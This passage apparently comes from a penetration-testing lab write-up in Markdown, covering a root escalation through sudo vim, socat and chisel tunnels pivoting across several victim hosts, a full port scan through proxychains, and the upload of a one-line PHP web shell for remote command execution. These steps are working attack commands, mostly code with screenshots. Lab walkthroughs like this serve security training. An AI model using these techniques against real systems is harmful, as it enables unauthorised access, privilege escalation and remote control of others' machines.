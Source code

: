         
    
    - We search in gtfobins for ways to escalate privileges with sudo vim and become root
        
        ```bash
        sudo vim -c ':!/bin/sh'
        ```
        
        ![image 40](https://github.com/user-attachments/assets/b01cde3b-9b9c-4294-8565-488a304f4654)

        
    
    - We create a tunnel between the three machines using `chisel` and `socat`
        
        ```bash
        #Execute this from the 30.30.30.3 machine
        ./chisel client 30.30.30.2:9998 R:9999:socks
        
        #Execute this from the 20.20.20.2 machine
        ./socat TCP-LISTEN:9998,fork TCP:20.20.20.2:9997
        
        #Execute this from the 10.10.10.2 machine
        ./socat TCP-LISTEN:9997,fork TCP:10.10.10.1:1234
        ```
        
        ![image 41](https://github.com/user-attachments/assets/139885bd-b3f8-4f5f-98da-0d890deea35d)

        
        ![image 42](https://github.com/user-attachments/assets/9ef09f80-51fd-4569-b9a0-fd94daf4cb23)

        
        ![image 43](https://github.com/user-attachments/assets/b5e74c91-bad3-4f59-ad13-10a6d858a956)

        
        - Add in `/etc/proxychains4.conf` the following line
            
            ```bash
            socks5 127.0.0.1 9999
            ```
            
    
- 40.40.40.3 (Victim 4)
    - We scanned all the ports.
        
        ```bash
        seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n 40.40.40.3 2>&1 | grep "tcp open"
        ```
        
        ![image 44](https://github.com/user-attachments/assets/8649552f-cc9d-4c52-9bb2-b1c23b670785)

        
    - We try to upload a php file with which we can execute commands (`RCE`)
        
        ![image 45](https://github.com/user-attachments/assets/9b18c343-8a8b-46b7-b2d0-076eed7cf0c2)

        
        ```bash
        <?php 
        	system($_GET['cmd']);
        ?>
        ```
        